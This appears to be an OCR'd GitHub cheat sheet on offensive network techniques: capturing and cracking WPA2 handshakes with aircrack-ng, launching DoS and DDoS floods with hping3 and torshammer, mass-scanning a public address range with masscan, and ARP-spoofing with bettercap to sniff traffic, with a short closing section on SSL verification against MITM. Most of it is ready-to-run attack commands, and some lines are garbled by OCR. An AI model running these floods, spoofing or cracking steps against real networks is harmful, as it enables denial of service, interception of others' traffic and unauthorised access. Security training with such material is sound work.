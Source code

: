 # Handshake

A wireless handshake, also known as a four-way handshake, is the 
process of establishing a secure connection between a wireless 
access point (AP) and a client device on a wireless network

▪ The most common method for cracking WPA2-PSK is through an offline brute-force attack, which involves trying every possible password combination until the correct one is found
▪ The one requirement before engaging with such attacks, is 
capturing a valid handshake from present client on the network

The tools we will mainly use from Aircrack-ng bundles are:
▪ airodump-ng for analyzing the networks and capturing handshakes
▪ aireplay-ng for performing deauthentication attacks
▪ aircrack-ng for cracking the password with the handshake


Enter the following command to start capturing packets for the target network:
▪ sudo airodump-ng --bssid <target_BSSID> --channel <target_channel> --write <output_file> wlan0mon
▪ aircrack-ng -w <wordlist_file> <handshake_file>

# DoS and DDoS

▪ HOIC (High Orbit Ion Cannon) is a free and open-source tool used for stress testing websites and networks. 
Download at: https://sourceforge.net/projects/highorbitioncannon/ 
▪ LOIC (Low Orbit Ion Cannon) is an open-source network stress testing tool used to perform denial-of-service (DoS) attacks. 
Download at: https://sourceforge.net/projects/loic/
▪ hping3 is a free, open-source tool used for network testing, security auditing, and packet crafting. hping3 is capable of sending a large number of packets to a target system, and it can be used to test the resilience of a network against various types of attacks, including denial-of-service (DoS) attacks.

```sh
sudohping3-S--flood-V-p IP_ADDRESS
```

▪ torshammer.py is a script written in Python that can be used to perform a distributed denial-of-service (DDoS) attack.
https://github.com/Karlheinzniebuhr/torshammer 

```sh
python torshammer.py -t 192.168.1.100 -r 100000 -T
```


##  Network Reconnaissance with Nmap
[Cheatsheet Nmap](https://www.stationx.net/nmap-cheat-sheet/)
```sh
nmap -p 80 --script http-generator.nse
nmap -p 443 --script=http-headers,http-title,http-generator 
nmap --script="default and http-*" 
```
##  Network Reconnaissance with Masscan
[Cheatsheet Masscan/](https://cheatsheet.haax.fr/network/port-scanning/masscan_cheatsheet/)
```sh
masscan -p80,443,8080,8443,81,4444,4443,8888 70.176.0.0/16
```
##  Network Reconnaissance with Netdiscover
[Cheatsheet Netdiscover](https://neverendingsecurity.wordpress.com/2015/04/07/netdiscover-cheatsheet/)
```sh
sudo netdiscover
```
## Network Reconnaissance with Bettercap
[Cheatsheet Bettercap](https://github.com/Lifka/hacking-resources/blob/main/session-hijacking-cheat-sheet.md)
```sh
sudo bettercap
```

# Nessus
is a popular, commercial vulnerability scanner used for  identifying security threats in computer systems, such as missing patches, configuration issues, and susceptible software

```sh
wget 'https://www.tenable.com/downloads/api/v1/public/pages/nessus/ downloads/18394/download?i_agree_to_tenable_license_agreeme nt=true' -O Nessus_amd64.deb
sudo apt install -f ./Nessus_amd64.deb
sudo systemctl enable nessusd
sudo systemctl start nessusd
systemctl status nessusd
```


***1.After everything is done, you should land to the base UI***
***2. If you can't create new scan, this is most likely because plugins are still configuring***

# ARP Spoofing attacks with the following tools:
**Ettercap** (https://www.ettercap-project.org/)
**MITM Framework** (https://github.com/byt3bl33d3r/MITMf)
Driftnet (https://www.kali.org/tools/driftnet/

## Performing MITM with Bettercap
```sh
sudo apt-get install bettercap
sudo bettercap --iface <interface>
```

Running the ARP spoof attack
 ▪ net.probe on
 ▪ set arp.spoof.duplex true
 ▪ set arp.spoof.targets 192.168.74.128
 ▪ arp.spoof on
 ▪ net.sniff on


##  How SSL Verification Stop MITM?
▪To prevent man-in-the-middle (MITM) attacks by verifying SSL 
certificates, you should take the following steps:
 ▪ Ensure that the SSL certificate is from a trusted certificate authority 
(CA) and has not been revoked
 ▪Verify that the domain name in the certificate matches the domain 
name of the website you are visiting